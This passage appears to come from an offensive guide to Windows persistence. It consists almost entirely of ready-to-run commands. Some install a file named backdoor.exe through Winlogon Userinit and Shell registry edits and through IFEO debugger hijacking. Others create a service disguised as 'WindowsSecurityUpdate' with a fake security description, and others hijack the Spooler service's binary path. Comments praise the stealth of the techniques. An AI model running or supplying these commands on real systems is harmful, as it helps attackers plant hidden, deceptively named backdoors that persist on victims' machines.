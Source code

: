#### Additional Registry Locations
```cmd
# RunOnce keys (execute once then delete)
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce

# Run keys for specific scenarios  
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices

# Winlogon registry keys
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
```

### 2. Registry Persistence Examples
```cmd
# Userinit persistence (very stealthy)
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v "Userinit" /t REG_SZ /d "C:\Windows\system32\userinit.exe,C:\Windows\system32\backdoor.exe" /f

# Shell persistence
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v "Shell" /t REG_SZ /d "explorer.exe,C:\Windows\system32\backdoor.exe" /f

# Image File Execution Options (IFEO) hijacking
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v "Debugger" /t REG_SZ /d "C:\Windows\system32\backdoor.exe" /f
```

## Service-Based Persistence

### 1. Creating Windows Services
```cmd
# Create new service for persistence
sc create "WindowsSecurityUpdate" binpath= "C:\Windows\System32\backdoor.exe" start= auto
sc description "WindowsSecurityUpdate" "Provides critical security updates for Windows"
sc start "WindowsSecurityUpdate"

# PowerShell service creation
New-Service -Name "WindowsSecurityUpdate" -BinaryPathName "C:\Windows\System32\backdoor.exe" -StartupType Automatic -Description "Provides critical security updates"
Start-Service -Name "WindowsSecurityUpdate"
```

### 2. Modifying Existing Services
```cmd
# Modify existing service binary path
sc config "Spooler" binpath= "C:\Windows\System32\backdoor.exe && C:\Windows\System32\spoolsv.exe"

# Modify service to depend on our malicious service
sc config "Spooler" depend= "WindowsSecurityUpdate"

# Query service configuration
sc qc "WindowsSecurityUpdate"
```
